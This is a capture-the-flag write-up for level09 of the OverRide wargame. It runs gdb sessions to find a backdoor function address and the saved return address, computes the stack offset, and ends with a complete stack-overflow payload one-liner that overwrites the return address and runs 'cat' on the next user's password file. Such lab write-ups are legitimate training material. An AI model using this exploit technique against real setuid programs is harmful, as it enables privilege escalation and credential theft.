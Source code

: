 ### step 1: Decompile with Ghydra

- Binary in 64-bits

```
level09@OverRide:~$ file level09 
level09: setuid setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xa1a3a49786f29814c5abd4fc6d7a685800a3d454, not stripped
```

- Sources are available in `source.c`


### step 2: Code Analysis

- find secret backdoor function address : `0x000055555555488c`
```
gdb level09
info functions
```
- find eip of handle_msg : `0x7fffffffe5c8`
 
```
gdb level09
b handle_msg
 r
Starting program: /home/users/level09/level09 
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------

Breakpoint 1, 0x00005555555548c4 in handle_msg ()
(gdb) info frame
Stack level 0, frame at 0x7fffffffe5d0:
 rip = 0x5555555548c4 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5e0
 Arglist at 0x7fffffffe5c0, args: 
 Locals at 0x7fffffffe5c0, Previous frame's sp is 0x7fffffffe5d0
 Saved registers:
  rbp at 0x7fffffffe5c0, rip at 0x7fffffffe5c8
```

- find address of ref : 

Set breakpoint before the call of set_msg or set_username in handle_msg because the ref is passed as an argument to these functions so we can find the address in rax

```
gdb level09
start
disas handle_msg
b *0x0000555555554910
c
(gdb) x $rax
0x7fffffffe500:	0x0000000a
```

- find offset between ref and eip address
`0x7fffffffe5c8 - 0x7fffffffe500 = 200`

set_username
ecrit de ref + 140 à ref + 181

set_msg
ecrit de ref à ref + 180 ?






0x000055555555488c to little endian : 8c 48 55 55 55 55 00 00
\x8c\x48\x55\x55\x55\x55\x00\x00
dépasse sur message au 128 eme char dans username
final string : 
(python -c 'print("a" * 40 + "\xFF")' ; python -c 'print(200 * "b" + "\x8c\x48\x55\x55\x55\x55\x00\x00")'; echo 'cat /home/users/end/.pass') | ./level09